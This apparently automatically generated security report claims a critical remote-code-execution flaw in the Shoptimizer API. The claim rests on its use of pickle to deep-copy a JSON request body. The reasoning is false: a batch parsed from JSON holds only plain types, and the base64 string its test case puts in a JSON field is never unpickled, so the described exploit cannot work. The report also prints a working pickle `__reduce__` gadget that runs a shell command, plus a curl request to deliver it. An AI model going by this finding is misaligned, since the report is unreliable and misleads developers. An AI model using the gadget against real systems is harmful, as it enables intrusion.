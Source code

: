 ### Combined Vulnerability List

After reviewing the provided lists, the following vulnerability has been identified.

### 1. Insecure Deserialization in `base_optimizer.py`

- **Description**:
  - The Shoptimizer API uses Python's `pickle` library to create deep copies of product batch data within the `base_optimizer.py` file.
  - In the `process` method of `base_optimizer.BaseOptimizer`, the line `optimized_product_batch = pickle.loads(pickle.dumps(product_batch))` serializes the user-provided `product_batch` JSON payload using `pickle.dumps` and immediately deserializes it with `pickle.loads`.
  - Python's `pickle` library is known to be vulnerable to insecure deserialization. If an attacker can control the `product_batch` JSON payload and include a serialized Python object containing malicious code, this code will be executed on the Shoptimizer API server when `pickle.loads` is called.
  - By crafting a malicious JSON payload with a pickled object, an attacker can inject and execute arbitrary code on the server.

- **Impact**:
  - Critical. Exploiting this vulnerability allows for Remote Code Execution (RCE).
  - Successful RCE grants the attacker full control over the Shoptimizer API server. This can lead to severe consequences, including data breaches, complete system compromise, and the potential to launch further attacks on connected infrastructure.

- **Vulnerability Rank**: Critical

- **Currently Implemented Mitigations**:
  - None. The application directly uses `pickle.loads` and `pickle.dumps` on user-provided data without any input validation or sanitization to prevent insecure deserialization attacks.

- **Missing Mitigations**:
  - **Avoid `pickle` for User-Controlled Data Deserialization**: The primary and most effective mitigation is to completely avoid using `pickle` to deserialize data that originates from or is influenced by user input. Since `pickle` is used here for deep copying internal data, a safer alternative for deep copying, such as Python's built-in `copy.deepcopy()`, should be used instead.
  - **Input Validation and Sanitization (Less Recommended for `pickle`)**: While input validation and sanitization are generally good security practices, they are not a robust solution for `pickle` deserialization vulnerabilities. Due to the complexity of `pickle` and potential bypasses, avoiding `pickle` for untrusted data is the strongly recommended approach.

- **Preconditions**:
  - The attacker needs to be able to send a POST request to the `/batch/optimize` endpoint of the Shoptimizer API with a JSON payload.
  - The attacker must be capable of crafting a JSON payload that includes a valid `pickle` serialized Python object containing malicious code.

- **Source Code Analysis**:
  - File: `/code/shoptimizer_api/optimizers_abstract/base_optimizer.py`
  - Function: `process(self, product_batch: Dict[str, Any], ...)`
  - Line: `optimized_product_batch = pickle.loads(pickle.dumps(product_batch))`

  ```python
  # /code/shoptimizer_api/optimizers_abstract/base_optimizer.py
  import pickle
  # ... other imports ...

  class BaseOptimizer(ABC):
      # ... other methods ...

      def process(self, product_batch: Dict[str, Any], **kwargs: Any) -> Dict[str, Any]:
          """Performs the optimization process.

          Args:
              product_batch (Dict[str, Any]): Batch of product data.
              **kwargs (Any): Additional keyword arguments.

          Returns:
              Dict[str, Any]: Optimized product batch.
          """
          # Create a deep copy of the product batch to avoid modifying the original data
          optimized_product_batch = pickle.loads(pickle.dumps(product_batch)) # INSECURE DESERIALIZATION VULNERABILITY
          # ... rest of the code ...
          return optimized_product_batch
  ```

  - The `process` function in `base_optimizer.BaseOptimizer` takes `product_batch` as input, which originates from the JSON payload sent by the user to the `/batch/optimize` endpoint. This user-controlled `product_batch` is directly serialized and then immediately deserialized using `pickle.dumps` and `pickle.loads`. This direct use of `pickle.loads` on user-provided data without any sanitization creates a critical insecure deserialization vulnerability, allowing for potential Remote Code Execution.

- **Security Test Case**:
  - **Step 1**: Prepare a malicious Python payload. Create a Python class `MaliciousPayload` with a `__reduce__` method that will execute arbitrary code upon deserialization. For example, the code could create a file named `pwned` in the `/tmp` directory on the server:

    ```python
    import os
    import pickle
    import base64

    class MaliciousPayload(object):
        def __reduce__(self):
            return (os.system, ('touch /tmp/pwned',))

    payload = MaliciousPayload()
    pickled_payload = pickle.dumps(payload)
    base64_payload = base64.b64encode(pickled_payload).decode()
    print(f"Base64 encoded pickled payload: {base64_payload}")
    ```

  - **Step 2**: Generate the base64 encoded pickled payload using the script above.
  - **Step 3**: Craft a JSON payload for the `/batch/optimize` endpoint. Embed the base64 encoded pickled payload into the JSON data. You can insert it into any string field within the JSON request body, such as the `title` of a product.

    ```json
    {
      "products": [
        {
          "title": "Product with malicious payload",
          "description": "...",
          "image": "...",
          "price": 10.0,
          "base64_payload": "YOUR_BASE64_ENCODED_PICKLED_PAYLOAD_FROM_STEP_2"
        }
      ],
      "optimizer_chain": ["default-optimizer"]
    }
    ```
    Replace `"YOUR_BASE64_ENCODED_PICKLED_PAYLOAD_FROM_STEP_2"` with the actual base64 payload generated in Step 2.

  - **Step 4**: Send a POST request to the `/batch/optimize` endpoint with the crafted JSON payload using `curl` or Postman.

    ```bash
    curl -X POST -H "Content-Type: application/json" -d '{"products": [{"title": "Product with malicious payload", "description": "...", "image": "...", "price": 10.0, "base64_payload": "YOUR_BASE64_ENCODED_PICKLED_PAYLOAD_FROM_STEP_2"}], "optimizer_chain": ["default-optimizer"]}' http://<API_HOST>/batch/optimize
    ```
    Replace `<API_HOST>` with the actual hostname or IP address of the Shoptimizer API.

  - **Step 5**: Verify successful exploitation. Check if the file `/tmp/pwned` has been created on the Shoptimizer API server. If the file exists, it confirms that the malicious code within the pickled payload was successfully executed during deserialization, demonstrating Remote Code Execution. Alternatively, monitor server logs for errors or unusual activity that might indicate code execution. You could also use a less intrusive payload, such as a `time.sleep(30)` command to observe a delayed response from the API, confirming code execution.